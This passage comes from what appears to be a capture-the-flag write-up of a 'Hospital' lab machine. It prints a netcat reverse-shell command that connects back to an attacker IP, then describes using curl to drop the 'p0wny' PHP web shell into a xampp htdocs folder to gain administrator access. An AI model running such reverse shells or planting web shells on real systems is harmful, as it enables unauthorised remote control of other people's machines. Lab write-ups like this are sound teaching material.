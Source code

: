 Now we need to do the same with a reverse shell generated from [here](https://www.revshells.com/) (`nc 10.10.14.127 6969 -e cmd`), and we listen for an incoming connection :

<img src="/assets/img/HospitalWriteup/hosp14.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

And we've gained access to the actual machine (not WSL) and got Dr Brown's account access (and thus have the user flag)

## Going administrator

Once we're on the system, we can navigate a little bit and find that `xampp` has a folder in the root of the system. Xampp is a PHP developement environement, so that means that if we can put a php webpage in the folder that serves `xampp` webpages, we might be able to use our previous `p0wny shell`. 

By default the webpages that are served in `xampp` are stored in the `xampp\htdocs` folder. So let's go there and curl our powny shell from our python webserver:

<img src="/assets/img/HospitalWriteup/hosp15.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

Now to access that page from our browser :
